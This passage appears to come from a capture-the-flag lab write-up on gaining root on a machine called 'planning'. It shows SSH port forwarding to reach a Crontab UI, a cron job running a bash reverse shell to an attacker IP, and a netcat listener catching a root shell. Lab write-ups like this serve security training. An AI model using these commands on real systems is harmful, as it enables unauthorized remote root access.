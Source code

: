 ```bash
```

I use SSH local port forwarding to access 127.0.0.1:8000:

```bash
ssh enzo@10.10.11.68 -L 8000:127.0.0.1:8000
```

I confirm the crontab UI shows scheduled jobs and allows me to interact with them:

![web](/assets/img/commons/planning/crontab-ui.png){: .center-image }

Finally, I create a cron job that executes this reverse shell command:

```bash
bash -c "bash -i >& /dev/tcp/10.10.16.57/443 0>&1"
```

Next, I set up a listener on my machine using netcat to catch the incoming reverse shell connection:

```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.57] from (UNKNOWN) [10.10.11.68] 59592
root@planning:/# whoami
root
```